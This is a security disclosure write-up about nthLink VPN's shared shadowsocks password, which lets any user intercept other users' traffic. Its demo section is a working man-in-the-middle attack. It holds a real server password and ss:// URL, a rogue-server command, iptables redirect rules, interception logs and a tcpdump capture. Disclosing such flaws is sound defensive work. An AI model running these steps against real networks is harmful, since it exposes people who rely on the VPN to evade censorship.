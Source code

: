 # Stripping nthLink VPN encryption

A note about nthLink VPN, its internals and its fatal cryptographic failure. Why it can be important:

* Some people may rely on non-existent security guarantees promised by this application. This product specifically claims circumvention of censorship, outlining its primary use case. In that usage scenario confidentiality failures may cause end user unknowingly reveal to censor what was supposed to be hidden by VPN connection.
* Other applications running shadowsocks instances for multiple users ultimately may have that issue too. Basically that protocol is [still suited only for personal use](https://github.com/shadowsocks/shadowsocks-org/issues/54), not for public services with many users.

Also this note may be interesting to people who want to know how such applications work under the hood.

## About nthLink VPN

Interesting facts about the product.

From [nthLink website](https://www.nthlink.com/):

![Most importantly, it incorporates strong encryption to protect the information flow between the consumer and the source.](img1.png)

More security claims:

![nthLink utilizes the strongest industrially available encryption to keep user communications private and prevents censors from performing content/packet inspection.](img2.png)

Security audit completed twice:

![Claims about two audits with Cure53](img3.png)

Interesting that audit report is not made public, but promised to be provided upon requests. What's the problem with publishing it? Anyway, in the light of actual findings it's safe to assume that [Cure53](https://cure53.de/) audit is either worthless or its subject was related to infra/website and not the application itself.

Application is open source unless your source code request accidentally falls into spam folder[^1]:

![Please contact the nthLink support team to request access to the nthLink source code.](img4.png)

[Received fairly small funding from some Open Technology Fund.](http://web.archive.org/web/20220620234755/https://www.opentech.fund/results/supported-projects/nthlink/)

[^1]: Nonetheless, it is possible to recover all important details from Electron app for Windows.

## Application internals

Application pretends to work as a VPN for the whole system, but it is actually just a shadowsocks client. It uses [badvpn tun2socks](https://github.com/ambrop72/badvpn/tree/master/tun2socks) (or similar software) to redirect all TCP and UDP sessions into shadowsocks, which is technically not an actual VPN.

Despite the fact source code is not published and not readily available, it was trivial to extract it from their electron application for Windows. JS code can be unpacked with just `npx asar extract` command. [Here](https://github.com/jonmest/How-To-Tamper-With-Any-Electron-Application) is a full guide on that subject.

Analysis of source code revealed that algorithm of retrieving connection credentials roughly looks like that:

1. Calculate current API domain based on domain seed, top level domain and current date.
2. If it doesn't work, fallback to hardcoded AWS S3 domain.
3. Make a request and retrieve config body.
4. Config body contains digital signature (RSA-SHA256 PKCSv15). Verify it.
5. Decrypt final server credentials JSON encrypted with AES256-CTR. Static encryption key is hardcoded. Also this configuration payload contains latest domain seed and top level domain for API entrypoint generation.

I've made [alternative client](https://github.com/Snawoot/nth-dump) which does these steps and allows you to get plain shadowsocks credentials, usable with any vanilla shadowsocks client.

![nth-dump screenshot](img5.png)

Here is the problem. All cryptographic keys in shadowsocks are derived from shared password. **Therefore if all clients know the Symmetric Pre-Shared Key (SPSK) they can use it to MitM attack other clients of the same server.** This is a fatal cryptographic failure which completely destroys security of the protocol.

## Demo? Demo!

Let's demonstrate that anyone can see and tamper traffic secured by nthLink.

### Install app and connect

Latest nthLink app is an Android app version 5.1.0 released 2021-04-01.

Installed and connected:

![Installed and connected](img6.png)

Verified connection. IP address changed to IP address of nthLink server:

![Verified connection](img7.png)

### Rogue shadowsocks server

Victim IP address in the network is 192.168.1.65. We need to divert its traffic from nthLink shadowsocks server to our rogue shadowsocks server. Lets find address of server.

On Linux gateway (router) lets grab https-alike connections from victim device:

```
fgrep 192.168.1.65 /proc/net/nf_conntrack | fgrep dport=443 | fgrep ESTABLISHED
```

And from other side lets run [nth-dump](https://github.com/Snawoot/nth-dump#nth-dump) until there will be an address from the list of connections.

```
Name:		nthLink Server
Host:		68.183.72.121
Port:		443
Method:		chacha20-ietf-poly1305
Password:	2djK1R9egUBi
URL:		ss://Y2hhY2hhMjAtaWV0Zi1wb2x5MTMwNToyZGpLMVI5ZWdVQmk=@68.183.72.121:443#nthLink%20Server
```

Now connection matched to server and its credentials. Lets start rogue shadowsocks server. For that purpose I use [go-shadowsocks2](https://github.com/shadowsocks/go-shadowsocks2/) server:

```
./shadowsocks2-linux-arm -s 'ss://AEAD_CHACHA20_POLY1305:2djK1R9egUBi@:443' -verbose
```

Finally, let's redirect victim's traffic to rogue shadowsocks server:

```
iptables -t nat -I PREROUTING -m tcp -p tcp -s 192.168.0.0/16 -d 68.183.72.121 --dport 443 -j REDIRECT --to 443
iptables -t nat -I PREROUTING -m udp -p udp -s 192.168.0.0/16 -d 68.183.72.121 --dport 443 -j REDIRECT --to 443
```

### Traffic interception goal reached

Observing logs of go-shadowsocks2:

```
2022/08/24 23:24:46 tcp.go:137: proxy 192.168.1.65:46868 <-> 108.177.119.94:443
2022/08/24 23:24:49 tcp.go:137: proxy 192.168.1.65:46882 <-> 142.250.203.142:443
2022/08/24 23:24:49 tcp.go:137: proxy 192.168.1.65:46890 <-> 172.217.18.3:443
2022/08/24 23:25:06 tcp.go:137: proxy 192.168.1.65:46900 <-> 142.250.185.109:443
2022/08/24 23:25:06 tcp.go:137: proxy 192.168.1.65:46908 <-> 142.250.184.228:443
2022/08/24 23:25:06 tcp.go:137: proxy 192.168.1.65:46914 <-> 142.250.185.67:443
2022/08/24 23:25:07 tcp.go:137: proxy 192.168.1.65:46920 <-> 34.160.111.145:443
2022/08/24 23:25:09 tcp.go:137: proxy 192.168.1.65:46930 <-> 8.8.4.4:443
2022/08/24 23:25:09 tcp.go:137: proxy 192.168.1.65:46936 <-> 8.8.8.8:443
2022/08/24 23:25:09 tcp.go:137: proxy 192.168.1.65:46944 <-> 8.8.8.8:443
2022/08/24 23:25:14 tcp.go:137: proxy 192.168.1.65:46952 <-> 172.217.20.202:443
2022/08/24 23:25:42 tcp.go:137: proxy 192.168.1.65:46966 <-> 149.154.167.50:443
2022/08/24 23:25:46 tcp.go:139: relay error: read tcp 46.250.2.79:60350->44.192.201.202:4244: read: connection reset by peer
2022/08/24 23:25:47 tcp.go:137: proxy 192.168.1.65:46972 <-> 44.192.201.202:443
2022/08/24 23:26:18 tcp.go:137: proxy 192.168.1.65:46980 <-> 216.58.215.99:443
2022/08/24 23:27:50 tcp.go:137: proxy 192.168.1.65:46986 <-> 149.154.167.50:443
2022/08/24 23:28:11 tcp.go:137: proxy 192.168.1.65:46992 <-> 149.154.167.50:443
2022/08/24 23:28:34 tcp.go:137: proxy 192.168.1.65:46998 <-> 149.154.167.50:443
```

As you can see, connections successfully redirected and our shadowsocks server understands and executes requests.

Confirmed redirection back to my home IP worked even with active VPN:

![Home IP again](img8.png)

We could redirect traffic back to nthLink server after inspection and make it look like usual, but for demo purposes we don't do it as we need to make it more explicit rather than make it stealth.

Finally, let's dump traffic with `tcpdump -i any -nvvs0 'dst port 443' -w hs.cap` to show we see it same way as without VPN at all. Captured TLS handshake with Server Name Indication viewer in Wireshark PCAP dump analyzer:

![Wireshark screenshot](img9.png)
